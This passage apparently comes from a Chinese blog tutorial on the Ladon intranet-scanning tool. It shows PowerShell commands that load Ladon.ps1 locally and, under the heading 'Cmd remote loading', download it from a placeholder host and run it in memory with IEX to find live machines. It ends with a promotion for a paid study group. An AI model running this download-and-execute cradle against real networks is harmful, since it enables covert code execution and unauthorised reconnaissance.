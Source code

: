 

```
powershell Import-Module .\Ladon.ps1;Ladon OnlinePC
```




![](https://img-blog.csdnimg.cn/20200524175916110.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



0x003 Cmd远程加载

-------------



在cmd窗口远程加载



```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/Ladon.ps1'); Ladon OnlinePC"
```




  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
